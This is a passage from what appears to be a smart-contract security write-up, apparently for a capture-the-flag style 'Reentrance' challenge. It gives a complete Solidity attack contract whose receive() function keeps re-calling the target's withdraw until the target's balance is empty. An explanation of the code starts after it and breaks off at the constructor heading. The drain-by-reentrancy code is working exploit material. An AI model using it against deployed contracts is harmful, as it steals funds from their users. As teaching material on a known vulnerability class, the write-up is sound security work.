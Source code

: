 
The attack contract can be implemented in many ways. Here’s a breakdown of the key components:



```
interface IReentrance {
  function donate(address) external payable;
  function withdraw(uint256) external;
}

contract Attack {
  IReentrance target;

  constructor(address payable _target) {
    target = IReentrance(_target);
  }

  function donate() external payable {
    target.donate{value: msg.value}(address(this));
  }

  function attack() external {
    target.withdraw(0.001 ether);
  }

  receive() external payable {
    if (address(target).balance > 0) {
      target.withdraw(0.001 ether);
    }
  }

  function withdraw() external {
    msg.sender.call{value: address(this).balance}("");
  }
}
```

### Explanation:


* **Interface:**



```
  interface IReentrance {
    function donate(address) external payable;
    function withdraw(uint256) external;
  }
```

The attack contract interfaces with the vulnerable contract using the `IReentrance` interface, which defines the `donate` and `withdraw` functions.


* **Constructor:**
